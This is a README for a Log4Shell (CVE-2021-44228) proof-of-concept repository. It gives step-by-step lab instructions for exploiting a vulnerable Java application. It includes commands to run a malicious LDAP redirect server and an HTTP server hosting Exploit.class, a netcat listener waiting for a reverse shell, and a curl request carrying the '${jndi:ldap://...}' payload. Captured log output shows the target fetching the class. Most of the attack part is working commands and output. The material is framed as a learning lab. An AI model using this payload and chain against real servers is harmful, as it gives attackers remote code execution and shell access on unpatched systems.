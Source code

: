 # Log4Shell POC (CVE-2021-44228)

This is a fork from [marcourbano's](https://github.com/marcourbano/CVE-2021-44228/) repo but with a clearer explanation on setting it up and using an ubuntu server rather than docker. It is also setup to allow a reverse shell from the labs target server.

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:

Kali Linux with 
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. The Java **Exploit.class** (and the corresponding Exploit.java file) that will be loaded by the Vulnerable application.
3. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Ubuntu Server with:
1. A Vulnerable Java Application (found in the log4j-lab folder)

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.

Prerequisites:
- Java
- Python
- Kali Linux
- Ubuntu Server

# Kali Linux
## Prepping Java File
Edit the .java file to enter your local Kali machines IP
```
cd attacker/exploit && sudo nano Exploit.java
```
Once you have updated your java file to point to your Kali machine's IP, You need to compile it
```
sudo javac -source 1.8 -target 1.8 Exploit.java
```

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```
python3 -m http.server PORT
```
### `LDAP Server`
In a seperate Terminal Tab/Window:
**1.** Move to `ldap_server` folder and build the `pom.xml`


```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```
## Listen for callback
In a seperate Terminal Tab/Window:
**1.** Use the Listen back command on port 4444 to wait for a reverse shell
```
nc -lvnp 4444
```
*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




# Ubuntu Server
## Running the `Vulnerable application`

Boot up a fresh Ubuntu Server VM and run the below commands to get started with installing dependencies

```
sudo apt update && sudo apt upgrade -y
```
```
sudo apt install openjdk-11-jdk -y
```
Once the server is setup, clone the git repo to the Ubuntu server and cd into the log4j-lab folder.
```
cd TargetServer/log4j-lab
```
You will need to download the log4j dependanies for the vulnerable java application to run
```
mkdir log4j && cd log4j

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar
wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar
```

To run the Application just run 
```
./run_vulnerable_app.sh
```

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.
In a seperate Terminal Tab run the below,
```
curl -H 'User-Agent: ${jndi:ldap://LDAP_SERVER_IP:LDAP_PORT/exploit}' http://TARGETSERVERIP:8080/
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2025-01-12 18:48:14  [HTTP-DISPATCHER] INFO VulnerableApp - User-Agent: ${jndi:ldap://10.0.2.15:1389/exploit}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, In the Terminal window you had the netcat listening, you should now have reverse shell access

![](./POC.png)

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@AdamJN](https://github.com/AdamJNew)

[@CrashOverflow](https://github.com/marcourbano) - Forked from his repo
